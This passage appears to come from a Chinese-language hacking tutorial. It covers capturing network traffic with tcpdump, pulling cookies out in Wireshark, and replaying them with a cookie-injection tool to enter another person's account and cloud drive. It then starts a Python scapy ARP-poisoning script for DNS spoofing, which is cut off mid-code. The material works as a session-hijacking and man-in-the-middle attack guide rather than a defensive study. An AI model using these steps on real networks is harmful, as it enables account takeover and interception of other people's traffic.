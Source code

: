 　　同时使用tcpdump抓包（当然也可以使用wireshark实时抓包并显示，但对本机压力比较大，建议使用tcpdump抓包，完成后再用wireshark显示）：

```
tcpdump -i eth0
```

　　![img](ImageAssets/262353279026525-1573358989603.png)

　　经过一段时间的抓包之后就可以停止了。打开wireshark分析捕获到的数据包分析，使用过滤语法，找出含有cookies的数据包：

　　![img](ImageAssets/270003052314382-1573358989603.png)　　

　　复制出cookies的值，并在浏览器中利用，这里推荐一款好用的cooikes利用工具cookie-injecting-tools（地址：https://github.com/lfzark/cookie-injecting-tools）。利用成功后，刷新页面，就可以进入到被人的主页和网盘了：

![img](ImageAssets/270017361996663-1573358989635.png)  ![img](ImageAssets/270018350278790-1573358989635.png)

　　**DNS欺骗：**

　　使用ettercap进行的DNS欺骗是使用了它的一个插件，同时结合ARP欺骗，就可以达到很好的欺骗效果。这里不再重复介绍了。重点是下面使用python实现的ARP欺骗和DNS欺骗：

```
#!/usr/bin/python# arp-poisoning
 
import sys
from scapy.all import sniff, sendp, ARP, Ether
 
if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)
def arp_poison_callback(packet):
    # Got ARP request?
    if packet[ARP].op == 1:
        answer = Ether(dst=packet[ARP].hwsrc) / ARP()
        answer[ARP].op = "is-at"
        answer[ARP].hwdst = packet[ARP].hwsrc
        answer[ARP].psrc = packet[ARP].pdst
        answer[ARP].pdst = packet[ARP].psrc
 
```